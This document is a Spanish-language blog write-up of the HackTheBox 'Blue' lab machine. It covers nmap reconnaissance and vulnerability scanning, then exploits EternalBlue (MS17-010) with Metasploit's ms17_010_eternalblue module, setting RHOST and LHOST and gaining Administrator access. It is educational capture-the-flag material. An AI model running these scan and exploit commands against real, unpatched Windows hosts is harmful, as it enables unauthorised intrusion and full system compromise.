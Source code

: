 ```yaml
---
layout      : post
title       : "Blue - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Blue-HackTheBox/Blue.webp
optimized_image : /assets/images/HTB/Blue-HackTheBox/Blue.webp
category    : [ htb ]
tags        : [ Windows ]
description : Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.
---
```


Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.

![](/assets/images/HTB/Blue-HackTheBox/Blue2.webp)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/Blue-HackTheBox/Blue-rating.webp)

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Explotación](#explotacion).
    * [Metasploit](#metasploit).

# Reconocimiento [#](reconocimiento) {#reconocimiento}

***

## Reconocimiento de Puertos [🔍](#recon-nmap) {#recon-nmap}

Lanzamos el escaneo de puertos.

```bash
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Lanzamos un escaneo mas detallado para saber que servicios y versiones se ejecutan en los puertos existentes que hay abiertos.

```bash
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-16T20:10:20
|_  start_date: 2022-10-16T19:29:57
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-10-16T21:10:17+01:00
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
```

Lanzamos escaneo de vulnerabilidades usando un script que ya viene implementado en nmap, el script es `vuln`

```bash
# Comando para lanzar el script
-------------------------------
nmap -p145,139,445 -n -Pn --script=vuln 10.10.10.40
```

![](/assets/images/HTB/Blue-HackTheBox/nmap-vuln.webp)

Veremos que el sistema es vulnerable a smb-vuln-ms17-010 o eternalblue.

Asique procedo a explotar la vulnerabilidad.

![](/assets/images/HTB/Blue-HackTheBox/gif.gif)

# Explotación [#](explotación) {#explotacion}

***

## Metasploit [💣](#metasploit) {#metasploit}

Explotaré la vulnerabilidad a través de metasploit.

Buscando encuentro varios exploit, asique elijo el siguiente:

> exploit/windows/smb/ms17_010_eternalblue

![](/assets/images/HTB/Blue-HackTheBox/msf1.webp)

Configuro los parámetros del exploit:

```bash
# Ip de la máquina víctima
set RHOST 10.10.10.40
----------------------------
# Ip de mi máquina local (mi interfaz de la vpn)
set LHOST tun0
------------------------------------------------
# Lanzamos el exploit
exploit
```

![](/assets/images/HTB/Blue-HackTheBox/msf2.webp)

Como podemos ver ya me he convertido en el usuario Administrador, por lo tanto ya podemos leer la flag user.txt y root.txt.

![](/assets/images/HTB/Blue-HackTheBox/flags.webp)

![](/assets/images/HTB/Blue-HackTheBox/fin.gif)

![](/assets/images/HTB/Blue-HackTheBox/share.webp)



